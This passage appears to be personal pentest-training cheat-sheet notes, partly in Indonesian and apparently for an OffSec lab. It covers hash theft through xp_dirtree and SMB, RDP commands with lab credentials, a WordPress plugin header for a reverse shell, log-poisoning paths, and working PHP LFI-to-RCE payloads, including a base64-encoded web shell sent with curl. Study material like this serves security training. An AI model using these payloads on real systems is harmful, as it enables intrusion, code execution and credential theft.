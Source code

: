 9. Windows responder and impacket smbserver.py
- xp_dirtree + impacket smb to steal the hash
- or if there's SSRF

10. Xfreerdp / RDP
```cmd
xfreerdp /v:192.168.199.61 /dynamic-resolution /u:offsec /p:lab /cert:ignore /drive:shatternox,. +clipboard

== PAKE DRIVE BIAR BISA COPY FILE DARI RDP KE KALI KITA

xfreerdp /v:192.168.187.151 /dynamic-resolution /u:student /p:lab /cert:ignore +clipboard
xfreerdp /u:student /p:lab /v:192.168.87.151
```

11. Installing malicious wp plugins
```php (HARUS ADA COMMENTNYA AJA)
/**
 * Plugin Name: My Custom Plugin
 * Plugin URI: http://example.com/my-custom-plugin
 * Description: A simple WordPress plugin example to add a custom shortcode.
 * Version: 1.0
 * Author: Your Name
 * Author URI: http://example.com
 */

<revshell code>
```

12. IIS Windows log (mungkin mau log poisoning, lfi to rce) / Windows Web Logs
```cmd
C:\inetpub\logs\LogFiles\W3SVC1\

C:\xampp\apache\logs\access.log
```

13. PHP Wrapper LFI (Base64 and Code Exec)
https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet
>> KALO ADA AKSES KE DALAM SERVERNYA, DAN BISA LFI. TARO REVSHELL AJA DI /dev/shm JGN /tmp. Apparently /tmp bisa beda-beda tiap user.

```cmd
php://filter/convert.base64-encode/resource=<filename>
data://text/plain,<php_code>
data://text/plain;base64,<base64_php_code>&cmd=ls

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

biar aman bisa pake base64 data wrapper.

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
